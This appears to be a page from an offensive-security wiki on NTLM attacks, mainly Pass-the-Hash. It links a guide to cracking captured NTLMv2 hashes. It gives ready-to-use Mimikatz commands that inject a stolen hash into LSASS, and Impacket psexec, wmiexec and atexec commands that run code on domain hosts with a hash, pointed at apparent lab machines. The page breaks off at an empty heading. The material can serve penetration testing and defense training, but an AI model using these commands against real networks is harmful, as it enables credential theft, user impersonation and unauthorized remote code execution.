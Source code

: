 If you have a **pcap that has captured a successful authentication process**, you can follow this guide to get the domain, username , challenge and response and try to creak the password: [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://research.801labs.org/cracking-an-ntlmv2-hash/)

## Pass-the-Hash

**Once you have the hash of the victim**, you can use it to **impersonate** it.\
You need to use a **tool** that will **perform** the **NTLM authentication using** that **hash**, **or** you could create a new **sessionlogon** and **inject** that **hash** inside the **LSASS**, so when any **NTLM authentication is performed**, that **hash will be used.** The last option is what mimikatz does.

**Please, remember that you can perform Pass-the-Hash attacks also using Computer accounts.**

### **Mimikatz**

**Needs to be run as administrator**

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 
```

This will launch a process that will belongs to the users that have launch mimikatz but internally in LSASS the saved credentials are the ones inside the mimikatz parameters. Then, you can access to network resources as if you where that user (similar to the `runas /netonly` trick but you don't need to know the plain-text password).

### Pass-the-Hash from linux

You can obtain code execution in Windows machines using Pass-the-Hash from Linux.\
[**Access here to learn how to do it.**](../../windows/ntlm/broken-reference/)

### Impacket Windows compiled tools

You can download[ impacket binaries for Windows here](https://github.com/ropnop/impacket\_static\_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* There are several more Impacket binaries...

### Invoke-TheHash

You can get the powershell scripts from here: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec

